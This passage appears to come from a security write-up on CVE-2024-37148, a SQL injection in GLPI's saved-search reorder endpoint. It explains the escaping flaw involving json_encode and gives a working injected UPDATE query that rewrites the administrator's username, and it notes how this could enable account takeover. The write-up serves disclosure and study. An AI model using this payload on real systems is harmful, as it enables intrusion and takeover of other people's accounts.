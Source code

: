 This routine can be called from an AJAX request (`ajax/savedsearch.php`):
```php
if ($action == 'reorder') {
    $savedsearch->saveOrder($_POST['ids']);
    header("Content-Type: application/json; charset=UTF-8");
    echo json_encode(['res' => true]);
}
```

One can notice that `$_POST['ids']` is supposed to be an array (supposedly containing integers, but without validity check). If `$items` (the argument passed to `saveOrder`) is indeed an array, it is passed to `exportArrayToDB`.

<img width="100%" style="margin-left:auto;margin-right:auto;display:block;" alt="CVE-2024-37148 - Injection 1" src="/assets/res/stuff/CVE-2024-37148/injection1.png">

The resulting SQL query is as follows:

```sql
UPDATE `glpi_users` SET `privatebookmarkorder` = '["\\',`name`=char(0x70,0x77,0x6e) where `id`=2 -- -"]' WHERE `id` = '3'

-- or

UPDATE `glpi_users` SET `privatebookmarkorder` = '["\\',`name`=char(0x70,0x77,0x6e) where `id`=2
```

It updates that username of the administrator, turning it into _'pwn'_. Therefore, it could lead to an account takeover, by modifying the user's password hash, or their password reset token.

But why does this happen ? Because when the application receives an input, it first tries to escape everything it can in `$_GET` or `$_POST` (in `inc/includes.php`), which means that a first backslash will be put before single quotes in any input. However, when passing the value through `json_encode`, the latter will escape the backslash, _**but not**_ the single quote:

```sh
php > echo json_encode(["\'"]);
["\\'"]
```
